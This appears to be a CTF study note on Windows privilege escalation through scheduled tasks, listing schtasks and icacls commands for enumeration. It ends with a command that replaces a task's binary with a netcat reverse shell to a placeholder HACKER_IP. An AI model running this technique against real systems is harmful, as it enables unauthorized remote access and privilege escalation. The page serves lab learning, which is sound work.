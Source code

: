 # Scheduled tasks

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-md-2"><div>

List scheduled tasks

```shell!
PS> schtasks
```

Query more info on a task <small>(ex: `example_task`)</small> with:

```shell!
PS> schtasks /query /tn example_task /fo list /v
```

When inspecting tasks, look for the binary in **Task To Run**. You may be able to **replace**, **edit** or **inject** some code in the binary.

* Check your [permissions](/operating-systems/windows/knowledge/index.md#permissions-and-users)

```shell!
PS> icacls task_to_run
```
</div><div>

➡️ During CTFs, you may be given the permissions to restart the task, otherwise you will have to wait.

```shell!
PS> schtasks /run /tn taskname
```

<br>

#### Replace a task

Replace a binary executed by a task with `netcat`:

```shell!
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```
</div></div>